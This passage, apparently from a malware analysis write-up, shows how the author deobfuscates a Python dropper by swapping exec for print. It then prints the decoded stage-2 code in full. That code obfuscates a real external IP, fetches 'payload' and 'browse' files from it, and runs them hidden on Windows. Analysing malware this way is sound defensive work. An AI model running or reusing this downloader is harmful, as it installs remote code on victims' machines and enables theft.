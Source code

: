 This is the file we get. We can see that it executes a result. We could do static analysis, but it's not needed. Let's replace `exec` with `print` and run the program again. (if you are doing this yourself, make sure you are running this in a safe environment) We are also going to pipe this into a new file called... actual-stage-2 :

```bash
python3 ./rsj6 > actual-stage-2
```

We get an actually understandable file this time:

```py

import base64,platform,os,subprocess,sys
try:import requests
except:subprocess.check_call([sys.executable, '-m', 'pip', 'install', 'requests']);import requests

ot = platform.system()
home = os.path.expanduser("~")
host="4yMTIuODk=MTQ3LjEyNC"
host1 = base64.b64decode(host[10:] + host[:10]).decode()
host2 = f'http://{host1}:1244'
pd = os.path.join(home, ".n2")
ap = pd + "/pay"
def download_payload():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass

    try:
        aa = requests.get(host2+"/payload/"+sType, allow_redirects=True)
        with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
res=download_payload()
if res:
    if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
    else:subprocess.Popen([sys.executable, ap])

if ot=="Darwin":sys.exit(-1)

ap = pd + "/bow"
def download_browse():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass
    try:
        aa=requests.get(host2+"/brow/"+sType, allow_redirects=True)
        with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
res=download_browse()
if res:
    if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
    else:subprocess.Popen([sys.executable, ap])
```
